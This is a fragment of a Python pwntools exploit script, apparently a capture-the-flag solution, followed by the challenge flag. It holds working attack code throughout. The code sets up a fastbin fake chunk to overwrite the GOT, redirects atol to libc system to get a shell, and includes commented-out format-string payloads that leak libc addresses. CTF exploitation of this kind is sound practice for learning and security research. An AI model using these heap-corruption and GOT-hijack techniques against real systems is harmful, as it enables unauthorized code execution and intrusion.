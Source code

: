 ```python exp_bad.py
    log.success("libc_base: " +hex(libc.address))
    # gdb.attach(r, gdbscript=open('./ggg', 'r'))
    # arrange heap
    add_data(2, 0, "2"*0xb0*2, 'Yes')
    add_data(2, 0, "3"*0x58*2, 'Yes')
    add_data(2, 0, "4"*0x38*2, 'Yes')
    # overwrite fastbin->fd ( in size 0x40 )
    payload = convert(0x41)
    payload += convert(0x604042)
    payload += convert(0) * 6
    payload += convert(0x31)
    payload = payload.ljust(0x58*2, '0')
    add_data(2, 0x60-0x8, payload, 'Yes')
    # now fastbin (size=0x40) has fake chunk @ got
    # allocate the fake chunk
    # overwrite got
    payload = "6"*12 # libc_start_main
    payload += convert(0x400b26) # resolve fgets
    payload += convert(0x400b36) # resolve strlen
    payload += convert(libc.symbols['system']) # hijack atol
    #payload += convert(elf.plt['printf']) # use format string to leak libc info
    payload = payload.ljust(110, '0')
    add_data(3, 8, payload, 'No')
    
    # hijack atol, send "sh" to get shell
    r.sendlineafter("SEQ #:", "sh")
    log.success("get shell!: ")
    r.interactive()

    # for exploiting format string & leak libc info
    """
    payload = "%10$s.%p.%p.%p.%p.%p.%p.%p.%p.%p" + p64(elf.got['fgets'])
    r.sendlineafter("SEQ #:", payload)
    r.recv(1)
    print "fgets:", hex(u64(r.recv(6).ljust(8, '\x00')))
    payload = "%10$s.%p.%p.%p.%p.%p.%p.%p.%p.%p" + p64(elf.got['puts'])
    r.sendlineafter("Offset:", payload)
    r.recv(1)
    print "puts:", hex(u64(r.recv(6).ljust(8, '\x00')))
    """
```

flag: `All ints are not the same... A239... Some can be bad ints!`

